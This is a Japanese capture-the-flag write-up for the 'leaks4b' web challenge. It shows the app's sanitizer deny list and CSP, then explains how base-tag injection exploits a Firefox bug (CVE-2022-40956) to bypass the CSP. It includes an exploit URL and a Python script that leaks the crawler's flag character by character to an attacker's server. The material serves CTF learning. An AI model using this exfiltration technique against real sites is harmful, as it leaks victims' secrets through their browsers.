



# leaks4b

## 問題文

ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)

## 難易度

**hard**

## 作問にあたって

趣味 CTF ということもあり、キモイ問題を出しても良いでしょうということで 1day 問を出しました。  
Mozilla に早めに報告してしまったので、0day 問ではなくなってしまいました(CVE-2022-40956)。  
CSSi や ReDoS を用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefox の 1day 以外で解かれた方がいましたら Writeup などで教えてくれると嬉しいです。  
ちなみに Misc の soder はこの非想定解から生まれた問題です。  
そして 4b は嘘です。

## 解法

URL とソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
  
ひとまず配布されたソースの app.py を見ると、以下のようであった。

```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

~~~
@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
</head>
~~~
"""

~~~
@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```

`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookie がフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
  
一見すると`?cake=`で任意の HTML タグを差し込め、XSS によってクローラの cookie を取得できそうだが httpOnly であるようだ。  
さらに cssi_sanitizer と、とんでもなく厳しい CSP により守られており、XSS は愚か CSSi も難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoS の可能性もあることに気づく。  
幸い CSP に img の制限はないため、自身のドメインを src に設定した img タグを挿入し、アクセスの有無を確認することで ReDoS の応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかし cssi_sanitizer や文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法である base タグを挿入すると、CSP で none であるはずなのになぜか img の src を base の href へ問い合わせることがわかる。  
これによって、CSP をバイパスして img の相対パスがリークできる。  
img の画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現と base タグを cssi_sanitizer を躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。

```txt
http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```

base タグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下の leak.py で行う。

```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```

実行し、手動でリークした文字を追加していくと flag が得られた(自動化もできるが手動でも可能なような flag になっている)。

## TsukuCTF22{cakeuma}
